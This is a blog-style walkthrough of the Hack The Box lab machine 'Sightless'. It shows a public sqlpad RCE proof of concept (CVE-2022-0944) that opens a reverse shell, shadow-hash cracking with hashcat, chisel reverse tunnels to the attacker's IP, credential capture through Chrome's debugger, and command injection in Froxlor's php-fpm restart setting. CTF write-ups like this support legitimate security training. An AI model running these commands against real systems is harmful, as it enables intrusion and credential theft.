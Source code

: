 ```yaml
---
title: "Sightless Walkthrough(Hack The Box)"
date: 2025-04-03
draft: false
description: "A short Walkthrough for the box Sightless"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```

## Reconnaissance & Enumeration
- Network scan reveals three open ports
![Pasted image 20241221001932.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221001932.png?raw=true)
- Which are `FTP`, `SSH`, `http(80)`. Port `21(FTP)` is very unusual here. 
![three](https://media1.tenor.com/m/zZvOQkS9VysAAAAC/it%E2%80%99s-nice-it%E2%80%99s-different.gif)
- Initial Enumeration reveals that the page uses `nginx/1.18.0`
- Port `80` had a Slightless Titled page, while scrolling through I found a button which redirected to `sqlpad.sightless.htb`. It's a different domain so I quickly added it to my hosts file and visited it.
- Found a RCE vulnerability from google search: [POC](https://github.com/shhrew/CVE-2022-0944.git)

{{< badge >}} CVE-2022-0944 {{< /badge >}}
Template injection in connection test endpoint leads to RCE in GitHub repository sqlpad/sqlpad prior to 6.10.1.

## Exploitation
- First I cloned this [repo](https://github.com/shhrew/CVE-2022-0944) and then I installed all required packages.
```bash
pip3 install -r requirements.txt
```
- Then I execurted the POC and eventually got the shell
```bash
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working directory but, there wasn't any way to transfer it to our machine cause no versions of python found om the system.
- Then I got to know that this is a docker image.
![Pasted image 20241221022335.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022335.png?raw=true)
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd` I got know about the two users with bash permissions
![Pasted image 20241221022519.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022519.png?raw=true)
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it would be a waste of time.
![Pasted image 20241221022725.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022725.png?raw=true)
- After finding the module, I cracked it with my goto tool
```bash
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then I logged in via SSH
- Got {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241221023004.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023004.png?raw=true)
![so-far-so-good](https://media1.tenor.com/m/Ej4XZ8-ThvMAAAAC/positive-bear.gif)

## Privilege Escalation
- While doing post-enumeration I found some interesting local ports using `ss -tunlp` 
- Too many ports don't ya think. Kinda sus if you ask me
![Pasted image 20241221023121.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023121.png?raw=true)
![sus](https://media1.tenor.com/m/RNVIdsfRXz0AAAAd/hamstermert.gif)
- So I decided to forward all the weird looking ports to my machine
- On my machine
```bash
chisel server -p 7001 --reverse
```
- On the target machine
```bash
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- Not gonna lie that's a lot of ports
- It seems that port `8080` is running `Froxlor`, which required credentials to login
{{< details summary="What is Froxlor" >}} The server administration software for your needs. Developed by experienced server administrators, this panel simplifies the effort of managing your hosting platform. {{< /details >}}
- All the remaining ports seems to be suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to `chrome://inspect/#devices` and added all the forwarded ports using configure.
![Pasted image 20241221023839.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023839.png?raw=true)
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials.
- From the Network tab, I auth request I saw the credentials in plaintext.
![Pasted image 20241221024137.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024137.png?raw=true)
- Used those creds and got into Froxlor
- While hanging around, I discovered an potential endpoint that could lead to command injection
![Pasted image 20241221024348.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024348.png?raw=true)
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command I filled it with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method I modified the command to `chmod 777 /home/root.txt` This will change permissions.
![Pasted image 20241221024823.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024823.png?raw=true)
- Got the {{< keyword >}} User flag {{< /keyword >}} Then I realized that from the start I should've changed permissions for root directory itself
![Pasted image 20241221024851.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024851.png?raw=true)

{{< typeit >}} I hope you liked my walkthrough if you do please share it with your connections. That's it see you later {{< /typeit >}}

![see-ya](https://media1.tenor.com/m/DF0rzVHsu14AAAAC/xranz45-xranz54.gif)

